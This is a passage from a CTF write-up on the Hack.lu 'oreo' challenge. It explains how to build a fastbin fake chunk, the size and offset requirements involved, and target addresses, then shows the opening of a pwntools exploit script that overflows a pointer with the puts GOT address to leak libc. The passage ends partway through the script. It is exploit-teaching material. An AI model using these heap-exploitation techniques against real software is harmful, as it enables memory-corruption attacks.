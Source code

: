 For the setup for the chunks, we need to set the size value for the chunks. A quick refresher, the size is the first 4 bytes (8 bytes for x64 systems) before the actual content of the chunk. There are three requirements for what this value can be for the first chunks. The first is that it has to be the same size as the size malloc needs, when you are actually trying to get malloc to return the fake chunk. Keep in mind, this includes the heap metadata with the chunk, so it will be bigger than the size you pass malloc. In `x86` systems, the heap metadata takes up `0x8` bytes, and in `x64` systems the heap metadata takes up `0x10` bytes. In addition to that, malloc will just round certain sizes up. In this binary, we can see that rifles sizes are `0x41` bytes big (the `0x1` is from the previous in use bit), although we only requested `0x30` bytes of space.

The second requirement is that the chunk sizes must be fastbin size. Since we are trying to get this chunk in the fastbin, it's a bit of a given. The third requirement is that the size values have to be placed at offsets that would match actual chunks that are adjacent in memory. So if your first size value is `0x40`, assume that the second chunk's metadata starts `0x40` bytes after the start of the content section of the first chunk. Also the sizes of the two chunks don't need to be the same (however the second chunk's size still needs to be fastbin size). Also you don't need to set the previous chunk size in the heap metadata.

Now for executing this attack on this ctf challenge. Our goal will be to allocate a chunk at `0x804a2a8`. For that we will need to set a fake size at `0x804a2a4`. This matches up to the bss integer `riflesCount`. Since our only real control over this is making new files, we will need to allocate `0x41` rifles to set the size to `0x41` (since that is the actual size of a rifle chunk). With that, it will expect our second chunk at `0x3c + 0x4 = 0x40` bytes away from the first size value. We have the `0x3c` bytes from the first chunk which is `0x40` bytes big (the first `0x4` bytes is the previous freed chunk size), and `0x4` bytes from the next chunk's previous free chunk size.

## Exploit

Putting it all together, we have the following exploit. This exploit was ran on Ubuntu 16.0 :

```
# This exploit is based off of https://dangokyo.me/2017/12/04/hack-lu-ctf-2014-pwn-oreo-write-up/

from pwn import *

target = process('./oreo', env={"LD_PRELOAD":"./libc-2.23.so"})
gdb.attach(target)
elf = ELF('oreo')
libc = ELF("libc-2.23.so")

def addRifle(name, desc):
  target.sendline('1')
  target.sendline(name)
  target.sendline(desc)

def leakLibc():
  target.sendline('2')
  print target.recvuntil("Description: ")
  print target.recvuntil("Description: ")
  leak = target.recvline()
  puts = u32(leak[0:4])
  libc_base = puts - libc.symbols['puts']
  return libc_base

def orderRifles():
  target.sendline("3")

def leaveMessage(content):
  target.sendline("4")
  target.sendline(content)

# First commence the initial overflow of the previous gun ptr with the got address of puts for the infoleak
addRifle('0'*0x1b + p32(elf.got['puts']), "15935728")

```